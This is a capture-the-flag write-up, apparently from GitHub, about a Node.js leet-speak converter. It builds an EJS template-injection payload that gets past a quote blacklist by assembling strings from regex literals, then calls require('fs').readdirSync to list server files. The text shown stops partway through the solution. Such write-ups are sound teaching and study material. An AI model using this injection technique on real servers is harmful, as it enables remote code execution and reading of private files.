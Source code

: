 ```javascript

  return `<h1>${processed}</h1><a href="/">â†BACK</a>`;
};
```
```javascript
const toLeet = {
  A: 4,
  E: 3,
  G: 6,
  I: 1,
  S: 5,
  T: 7,
  O: 0,
};

const fromLeet = Object.fromEntries(
  Object.entries(toLeet).map(([k, v]) => [v, k])
);
```
to make it simple:
- chars are uppercased
- ' , " , ` are blacklisted
- when converting text to LEET code : A becomes 4, E becomes 3 ...
```javascript
const toLeet = {
  A: 4,
  E: 3,
  G: 6,
  I: 1,
  S: 5,
  T: 7,
  O: 0,
};
```
- when converting back from LEET code we the inverse of to Leet transformation.
```javascript
const fromLeet = Object.fromEntries(
  Object.entries(toLeet).map(([k, v]) => [v, k])
);
```
**The whole problem is how to bypass this input handling limitation and execute NodeJs code on the server side to read internal files, flag probably there.**
### Solution
It's better to deal with converting back from leet to text since it's just converting some numbers back to letters. 
```javascript
require('fs').readdirSync('.')
```
I tested this on my nodeJs interactive locally and it gives back files in the current directory.
To bypass quotes blacklist : 
```javascript
<%=require(String(/aaaaaaaf/).substring(8,9)+String(/aaaaaaas/).substring(8,9)).readdirSync(String(/aaaaaaa./).substring(8,9))%>
```
Note that I'am using 8 and 9 since they are not converted back to letters according to the list mentioned above.
Theoretically, we are all good! <br>